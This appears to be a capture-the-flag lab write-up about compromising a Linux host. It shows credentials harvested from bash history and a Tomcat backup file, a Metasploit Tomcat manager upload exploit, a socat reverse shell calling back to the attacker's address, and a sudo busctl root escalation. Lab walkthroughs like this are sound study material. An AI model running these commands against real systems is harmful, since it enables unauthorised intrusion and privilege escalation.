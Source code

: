 flag1 is just sitting in a hidden `.config` directory in our home directory  

We can read barry's `.bash_history` file, and he has a plaintext password (i_l0ve_s3cur1ty!) in there  

barry is a member of `adm` group, and we can thus read flag3 which is in /var/log  

This is where it gets interesting:  

`netstat -alnp` will show us that there is a webserver running on `0.0.0.0:8080`  
Navigating to this webserver in our browser, we can see it is the default Tomcat welcome page. There is a link to the manager login page which asks for credentials and tells us they can be configured in `/etc/tomcat-users.xml`  

Barry does not have access to that file, but has made a backup of it `/etc/tomcat-users.xml.bk` which we can read the tomcat login out of  

This allows us to login to the tomcat manager web portal  
To get a reverse shell, we can use metasploit:  
- `use exploit/multi/http/tomcat_mgr_upload`  
- `set httpPassword T0mc@t_s3cret_p@ss!`
- `set httpUsername tomcatadm`
- `set rhosts 10.129.127.128`  
- `set rport 8080`
- `set lhost tun0`  
- `run`  

This will get us a meterpreter session as the tomcat user on the box, which allows us to read flag4  

`sudo -l` shows us we can execute the `busctl` binary with no password  
Searching `busctl` in `GTFOBins` we can see that it is possible to escalate with sudo  

The tricky part here is we need a fully interactive shell for this to work. importing pty with python works, but stty stuff gets messed up. Instead, we will drop `socat` onto the box, and use that to get a fully interactive shell:  

Download statically compiled socat for x86_64:  
`https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat`  
(I tried to curl this, and it messed up)  
upload socat with meterpreter  

Run listener with:  
```bash
socat file:`tty`,raw,echo=0 tcp-listen:8686  
```
Run reverse shell from the target with:  
```bash
./socat_static exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.189:8686
```
And we get a fully interactive reverse shell  

Now, using what GTFOBins says, we can run:  
`sudo busctl --show-machine`  
And when the less-like interface cli comes up, type `!/bin/sh` to get a shell as root  

This gets us flag5

